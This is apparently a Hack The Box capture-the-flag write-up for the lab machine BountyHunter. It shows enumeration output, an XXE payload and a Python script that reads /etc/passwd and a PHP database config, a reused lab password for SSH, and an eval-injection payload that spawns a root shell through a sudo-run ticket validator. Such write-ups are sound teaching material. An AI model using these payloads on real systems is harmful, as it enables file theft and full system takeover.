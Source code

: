 ```yaml
---
title: Hackthebox - BountyHunter
date: 2021-07-27 00:00:00 +0530
categories: [hackthebox, linux]
tags: [xxe, programming logic]     # TAG names should always be lowercase
image: /assets/img/posts/bountyHunter/bountyHunter_banner.png
---
```



![](/assets/img/posts/bountyHunter/bountyHunter_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.100 bountyHunter.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From web server on port 80, `/portal.php` lead to `/log_submit.php`

![](/assets/img/posts/bountyHunter/log-submit.png)

This page takes users input and send it in xml form as base64 encoded strings. 

![](/assets/img/posts/bountyHunter/send-report.png)

![](/assets/img/posts/bountyHunter/xml-data.png)

From gobuster found a interesting file.
```bash
gobuster dir -u "http://10.10.11.100" -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt

/db.php               (Status: 200) [Size: 0]
```

# Foothold

## xxe

Testing xxe and get `/etc/passwd` file from xxe payload.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
```

![](/assets/img/posts/bountyHunter/xxe-injection.png)

Simple python script to automate xxe
```py
import re
import sys
import requests as r
import base64

url = "http://10.10.11.100/tracker_diRbPr00f314.php"
payload = "php://filter/convert.base64-encode/resource=db.php"
# payload = "file:///etc/passwd"
# payload = sys.argv[1]

data = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "{payload}">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>""".encode('ascii')

postdata = {"data": base64.b64encode(data).decode('ascii')}
rspn = r.post(url, data=postdata)
# print(rspn.text)

filter_rspn = re.findall('<td>(.*?)</td>', rspn.text, re.DOTALL)[1]
try:
    b64decode = base64.b64decode(filter_rspn).decode()
    print(bytes(b64decode, 'utf-8').decode('unicode_escape'))
except Exception:
    print(filter_rspn)
```

* Get username from `/etc/passwd`: "`development`"
* And db creds from: `db.php`: "`m19RoAU0hP41A1sTsq6K`"

database password worked for user "development" ssh login.

# Privesc

## programming logic

User "development" can run a python script `/opt/skytrain_inc/ticketValidator.py` with sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

This script doing something

![](/assets/img/posts/bountyHunter/ticket-script.png)

because script is not sanitizing input and directly send it to eval with some conditions, we only need to pass some checks and get code execution.
```bash
# Skytrain Inc
## Ticket to hell
__Ticket Code:__
**11 + 90 == 101 and __import__('os').system('/bin/bash')
```

![](/assets/img/posts/bountyHunter/rooted.png)